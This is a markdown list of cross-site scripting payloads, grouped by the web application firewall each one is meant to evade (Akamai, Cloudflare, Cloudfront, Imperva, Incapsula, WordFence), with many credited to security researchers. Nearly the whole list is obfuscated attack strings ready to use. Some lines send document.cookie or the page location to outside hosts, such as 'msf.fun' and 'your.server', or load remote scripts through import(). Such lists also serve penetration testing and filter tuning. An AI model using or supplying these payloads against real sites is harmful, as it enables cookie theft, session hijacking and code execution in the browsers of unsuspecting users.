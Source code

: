 # XSS Payloads for WAF Bypass

## Akamai XSS Payloads

<style>@keyframes a{}b{animation:a;}</style><b/onanimationstart=prompt`${document.domain}&#x60;></br>
<marquee+loop=1+width=0+onfinish='new+Function`al\ert`1``'></br>
<svg><circle><set onbegin=prompt(1) attributename=fill></br>
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x></br>
"%3balert`1`%3b"</br>
asd"`> onpointerenter=x=prompt,x`XSS`</br>
<x onauxclick=import('//1152848220/')>click</br>
<x onauxclick=a=alert,a(domain)>click -@niksthehacker</br>
<x onauxclick=import('//1152848220/')>click</br>
<x onauxclick=import('//xss/')>click</br>
\"<>onauxclick<>=(eval)(atob(`YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==`))>+<sss</br>
{{constructor.constructor(alert`1`)()}}</br>
javascript:new%20Function`al\ert`1``;</br>
https://twitter.com/xhzeem/status/1378316651431612422</br>
https://twitter.com/xhzeem/status/1377992310974218245</br>
<script>Object.prototype.BOOMR = 1;Object.prototype.url='https://portswigger-labs.net/xss/xss.js'</script></br>
"><a/\test="%26quot;x%26quot;"href='%01javascript:/*%b1*/;location.assign("//hackerone.com/stealthy?x="+location)'>Click -@stealthybugs</br>

## Cloudflare XSS payloads

<a"/onclick=(confirm)()>Click Here!</br>
Dec: <svg onload=prompt%26%230000000040document.domain)></br>
Hex: <svg onload=prompt%26%23x000000028;document.domain)></br>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'></br>
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a></br>
<--%253cimg%20onerror=alert(1)%20src=a%253e --!></br>
<a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'></br>
javascript:{ alert`0` }</br>
1'"><img/src/onerror=.1|alert``></br>
<img src=x onError=import('//1152848220/')></br>
%2sscript%2ualert()%2s/script%2u</br>
<svg on onload=(alert)(document.domain)></br>
<img ignored=() src=x onerror=prompt(1)></br>
<svg onx=() onload=(confirm)(1)></br>
“><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;</br>
<svg on =i onload=alert(domain) (working)</br>
<svg/onload=location/**/='https://your.server/'+document.domain></br>
<svg onx=() onload=window.alert?.()> (working)</br>
test",prompt%0A/*HelloWorld*/(document.domain) (working)- @Brutelogic</br>
"onx+%00+onpointerenter%3dalert(domain)+x" (working)- @Brutelogic</br>
"><svg%20onload=alert%26%230000000040"1")> (working)- @IamRenganathan</br>
%27%09);%0d%0a%09%09[1].find(alert)//</br>
"><img src=1 onmouseleave=print()> - @itsgeekymonk</br>
<svg on onload=(alert)(document.domain)> -@zapstiko</br>
<svg/on%20onload=alert(1)> (working) -@aufzayed</br>
<img/src=x onError="`${x}`;alert(`Ex.Mi`);"> -@ex_mi</br>

## Cloudfront XSS payloads

">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'></br>
">'><details/open/ontoggle=confirm('XSS')></br>
6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/</br>
&quot;&gt;&lt;img src=x onerror=confirm(1);&gt;</br>

## Imperva XSS payloads

<x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme   (working)-Pinaki @0xInfection(Make sure to URL encode the payload properly)</br>
tarun"><x/onafterscriptexecute=confirm%26lpar;)// -@sratarun</br>
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click (workin)Pinaki @0xInfection (Make sure the applications decodes the payload from encoded)</br>
<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];"> - @xsspayloads</br>
<svg onload\r\n=$.globalEval("al"+"ert()");></br>
<bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click Pinaki @0xInfection</br>
<sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//</div"> -@AldenAous</br>
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='test'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />tap</br>

## Incapsula XSS payloads

<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';></br>
<iframe/onload="var b = 'document.domain)'; var a = 'JaV' + 'ascRipt:al' + 'ert(' + b; this['src']=a"></br>
<audio autoplay onloadstart=this.src='hxxps://msf.fun/?c='+document["cook"+"ie"]' src=x></br>
<img/src=q onerror='new Function`al\ert`1``'></br>
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object></br>
<svg onload\r\n=$.globalEval("al"+"ert()");></br>
[1].map(alert)   or    (alert)(1)</br>
<"><details/open/ontoggle="jAvAsCrIpT&colon;alert&lpar;/xss-by-tarun/&rpar;">XXXXX</a></br>
[1].find(confirm)</br>
<svg/onload=self[`aler`%2b`t`]`1`></br>
%22%3E%3Cobject%20data=data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%3E%3C/object%3E</br>
'-[document.domain].map(alert)-'</br>

## WordFence XSS payloads

ax6zt%2522%253e%253cscript%253ealert%2528document.domain%2529%253c%252fscript%253ey6uu6 -@naglinagli</br>
<meter onmouseover="alert(1)" -@manjith27945363</br>
'">><div><meter onmouseover="alert(1)"</div>" -@manjith27945363</br>
>><marquee loop=1 width=0 onfinish=alert(1)> -@manjith27945363</br>
Wordfence 7.4.2</br>
<a href=&#01javascript:alert(1)> -@brutelogic</br>
<a/href=%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x0a;:alert(1)>please%20click%20here</a></br>
